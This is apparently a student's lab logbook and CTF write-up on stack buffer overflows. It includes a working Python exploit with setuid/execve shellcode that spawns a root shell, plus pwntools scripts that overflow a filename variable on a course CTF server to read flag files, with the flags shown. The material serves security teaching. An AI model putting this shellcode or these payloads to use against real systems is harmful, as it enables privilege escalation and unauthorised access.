


# Log Book 5

## Task 1

Both versions of the shellcode (32 and 64 bit) spawn a shell. We can run
commands on this shell as usual, but deleting characters doesn't given visual
feed. Deleting a char from the command line deletes it fromm the buffer, but it
remains on screen.

The environment of these shells includes both a PWD and OLDPWD:. It also
includes a SHLVL variable. No PATH environment variabl is defined.




## Task 2

There are 4 executable with slightly different configs (**DBUF_SIZE**):

- L1 - 100
- L2 - 160
- L3 - 200
- L4 - 10

We'll use L1 for task 3.

## Task 3

This executable was compiled for 32-bit and, using the instructions in the lab
pdf, we obtained the following information concerning the address of the buffer
and the frame pointer.

```
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaa8

gdb-peda$ p &buffer
$2 = (char (*)[100]) 0xffffca3c
```

### How to attack

We'll place our shell code in a region above the return address location and
change the return address to point to that location.

### Stack pointer

The frame pointer is pointing to the address of the **last frame pointer.**. The
last frame pointer is a 32-bit value: 4 byte. With this, we know the stack
pointer, **sp**, is at `sp + 4 = 0xffffcaa8 + 4 = 0xffffcaac`.

### The attack

We have a 517 byte buffer to use. We'll start by filling it with **NOPs**, and
then place our shellcode at the end of this buffer. These **NOPs** will be
helpful later since we can just point the return address no anywhere in this
region and the shellcode will be eventually reached (less precision required).

We can calculate that the offset between the buffer address and the frame
pointer, `fp - buf_addr`, is **108**.

With all of these in mind, we can place the address of the start of the
shellcode as the return address: `buf_addr + start`.

When the function attempts to return, it will jump to the shellcode and spawn a
shell.

### Exploit code

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80" # setuid(0)
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
fp = 0xffffcaa8
sp = fp + 4
buf_addr = 0xffffca3c

# buf_fp_offset
start = len(content) - len(shellcode)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = buf_addr + start
offset = sp - buf_addr

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

### Results

We managed to spawn a root shell. By including the assembly code for the
`setuid(0)` system call before the shellcode, we were able to spawn a root shell
on dash, bypassing its mitigation.



## CTF 5

## Desafio #1

### checksec

```
[11/14/21]seed@VM:~/ctf5$ checksec program
[*] '/home/seed/ctf5/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

### Existe algum ficheiro que é aberto e lido pelo programa?

O file `mem.txt` é aberto para leiture no programa.

### Existe alguma forma de controlar o ficheiro que é aberto?

O ficheiro nao é criado pelo programa entao podemos alterar o target file.

Existe um buffer overflow que nos deixa escrever por cima da variável que tem
contem o nome do ficheiro.

### Existe algum buffer-overflow? Se sim, o que é que podes fazer?

A leitura para o char array `buffer` aceita até 28 chars mas o buffer tem 20 =>
possível fazer overflow.

### Abusar buffer-overflow para ler outro ficheiro

```
[11/14/21]seed@VM:~/ctf5$ python3 exploit-example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4003: Done
[*] Switching to interactive mode
Echo 12345678901234567890flag.txt
I like what you got!
flag{6c9951e09608d5fcac88f83fa45e9f48}
[*] Got EOF while reading in interactive
$
[*] Closed connection to ctf-fsi.fe.up.pt port 4003
[11/14/21]seed@VM:~/ctf5$
```

### Flag 1

`flag{6c9951e09608d5fcac88f83fa45e9f48}`

## Desafio #2

### checksec

```
[11/14/21]seed@VM:~/.../challenge2$ checksec program
[*] '/home/seed/ctf5/challenge2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Mesmas permissoes.

### Que alterações foram feitas?

- Aumentaram o tamanho de chars lidos.
- Adicionaram um char array `val` que serve como uma especie de canary.

### Mitigam na totalidade o problema?

- Nao porque sabemos o que temos de escrever no array `val` para pasar o match.
- Continuamos a conseguir escrever sobre a variavel que contem o nome do
  ficheiro.

### É possivel ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?

Sim.

### Script adapatado

```py
#!/usr/bin/env python3

from pwn import *
from sys import argv

DEBUG = False
if len(argv) > 1 and argv[1].lower() == "debug":
    DEBUG = True

local = './program'
url = 'ctf-fsi.fe.up.pt'
port = 4000
if DEBUG:
    r = process(local)
else:
    r = remote(url, port)

r.recvuntil(b":")
val = b"\x22\x21\xfc\xfe"
r.sendline(b"12345678901234567890" + val + b"flag.txt")
r.interactive()
```

### Flag 2

```
[11/14/21]seed@VM:~/.../challenge2$ ./exploit-example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4000: Done
[*] Switching to interactive mode
I like what you got!
flag{4d4e6828b75144df352646b19f22a123}
[*] Got EOF while reading in interactive
$  
```
